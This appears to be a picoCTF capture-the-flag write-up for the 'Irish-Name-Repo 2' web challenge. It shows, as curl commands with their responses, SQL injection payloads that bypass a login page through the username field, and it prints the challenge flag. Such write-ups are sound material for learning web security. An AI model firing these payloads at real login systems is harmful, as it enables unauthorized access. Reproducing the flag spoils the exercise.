



# Irish-Name-Repo 2

## Description

> There is a website running at [Link](https://jupiter.challenges.picoctf.org/problem/53751/). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login!

## Hints

> The password is being filtered.

## Write-Up

When accessing a website, we can find a list of profiles displayed in the page : 


When we open this site, we see the content of the main page is not very helpful. When we look at the Support page however, we see an inquiry saying `Hi. I tried adding my favorite Irish person, Conan O'Brien. But I keep getting something called a SQL Error`. This tells us that the site uses a SQL database.

In the menu, we can see that there is a admin login portal. Let's explore it and see what is hides.



It seems like it is a normal login portal :



Let's curl it to get the action route and name fields (we can check those in the console as well) :




```
└─$ curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.html'
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

From what we found, and like **the previous challenge**, we may suspect that the login system is vulnerable to **SQL Injections**, let's try to make a basic injection what it does :

```
curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.php' --X POST --data "username=' OR 1=1 -- &password="
```

This time, we can see that the problem was fixed : 


```html
<h1>SQLi detected.</h1>
```

But the hint of the challenge, it tells us that the password is filtered, but is the username though ? this may tell us that it isn't really checking the password and we may bypass the protal by simply make the database log using only the username. This is possible since the `password` field isn't required. So, attacking the `username` field instead of the `password` field allowed bypassing the authentication logic :

```
curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.php' --X POST --data "username=admin' --"
```

```html
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>
```

It was also possible to set the `debug` parameter in order to inspect the SQL statement:

```
curl 'https://jupiter.challenges.picoctf.org/problem/53751/login.php' --X POST --data "username=' OR 1=1 -- &password=&debug=1"
```

```html
<pre>username: ' OR 1=1 -- 
password: 
SQL query: SELECT * FROM users WHERE name='' OR 1=1 -- ' AND password=''
</pre><h1>SQLi detected.</h1>
```

## Flag

picoCTF{m0R3_SQL_plz_c34df170}

## More Information

 - SQL Injection : https://www.w3schools.com/sql/sql_injection.asp 
